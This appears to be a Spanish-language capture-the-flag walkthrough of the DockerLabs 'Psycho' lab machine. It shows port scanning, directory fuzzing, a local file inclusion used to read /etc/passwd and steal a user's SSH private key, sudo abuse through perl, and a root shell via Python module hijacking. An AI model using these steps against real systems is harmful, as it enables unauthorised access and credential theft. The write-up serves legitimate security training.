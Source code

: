 # 🧠 Máquina: Psycho

**Nivel:** Fácil

**Plataforma:** DockerLabs

**Objetivo:** Obtener acceso como root explotando vulnerabilidades web y de configuración.

---

## 📦 Despliegue de la Máquina

Descargamos y descomprimimos la máquina:

```bash
unzip psycho.zip
sudo bash auto_deploy.sh psycho.tar
```

![](/Psycho/Imagenes/Logo.png)

![](/Psycho/Imagenes/Despliegue.jpeg)

Comprobamos la conectividad con `ping`:

```bash
ping 172.17.0.2
```

📸 ![](/Psycho/Imagenes/Ping.jpeg)

---

## 🔍 Enumeración

### Escaneo de Puertos

Usamos `nmap` para detectar los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

 ![](/Psycho/Imagenes/Puertos.jpeg)

Usamos un script personalizado `extractPorts` para facilitar el siguiente escaneo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

 ![](/Psycho/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis Web

Visitamos la página principal en el puerto 80:

📸 ![](/Psycho/Imagenes/Pagina.jpeg)

### Fuzzing con Gobuster

Ejecutamos `gobuster` para encontrar directorios y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

 ![](/Psycho/Imagenes/Gobuster.jpeg)

Se encontraron dos rutas relevantes:

* `/assets`
   ![](/Psycho/Imagenes/Directorio.jpeg)

* `/index.php/assets#` (mediante fuzzing manual)
  📸 ![](/Psycho/Imagenes/Oculto.jpeg)

### Análisis de Imagen

Descargamos una imagen y la analizamos con `exiftool` buscando metadatos sensibles, pero no se encontró información útil:

```bash
exiftool background.jpg
```

 ![](/Psycho/Imagenes/Metadatos.jpeg)

---

## 💥 Vulnerabilidad LFI (Local File Inclusion)

En el código fuente de la página se observó un posible error, que explotamos con LFI:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/etc/passwd" | grep "sh$"
```

 ![](/Psycho/Imagenes/Usuarios.jpeg)

Esto nos revela usuarios del sistema con shell válido, entre ellos:
`root`, `ubuntu`, `vaxei`, `luisillo`

---

## 🔑 Robo de Clave SSH

Aprovechamos la vulnerabilidad LFI para extraer la clave privada de SSH del usuario `vaxei`:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/home/vaxei/.ssh/id_rsa"
```

 ![](/Psycho/Imagenes/curlKey.jpeg)
 
 ![](/Psycho/Imagenes/Key.jpeg)

Guardamos la clave como `id_rsa` y le damos permisos adecuados:

```bash
chmod 600 id_rsa
```

Nos conectamos vía SSH:

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

 ![](/Psycho/Imagenes/webshell.jpeg)

---

## 📂 Revisión Inicial del Sistema

Inspeccionamos archivos visibles:

```bash
ls -l
cat file.txt
```

Archivo encontrado: `file.txt`
Contenido:

```
kflksdfsad  
asdsadsad  
asdasd  
```

---

## 🚀 Escalada de Privilegios

Verificamos los privilegios `sudo` del usuario `vaxei`:

```bash
sudo -l
```

 ![](/Psycho/Imagenes/Escalada.jpeg)

El resultado indica que `vaxei` puede ejecutar `perl` como el usuario `luisillo` sin contraseña:

```
(luisillo) NOPASSWD: /usr/bin/perl
```

### Escalamos a `luisillo`:

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```

---

## 🧑‍💻 Escalada a Root

Ya como `luisillo`, encontramos que el script `/opt/paw.py` llama a un archivo `subprocess.py`.

Creamos un archivo `subprocess.py` con el siguiente contenido malicioso:

```python
import os
os.system('bash')
```

Ejecutamos el script:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

Esto lanza una shell como **root**.

 ![](/Psycho/Imagenes/root.jpeg)

---

## ✅ Conclusiones

* Se descubrió una vulnerabilidad de inclusión de archivos locales (LFI).
* Se logró extraer una clave privada SSH.
* Se obtuvo acceso SSH como usuario normal (`vaxei`).
* Se escaló a otro usuario (`luisillo`) mediante `sudo` mal configurado.
* Finalmente, se escaló a **root** al abusar de un script que ejecutaba código arbitrario en Python.
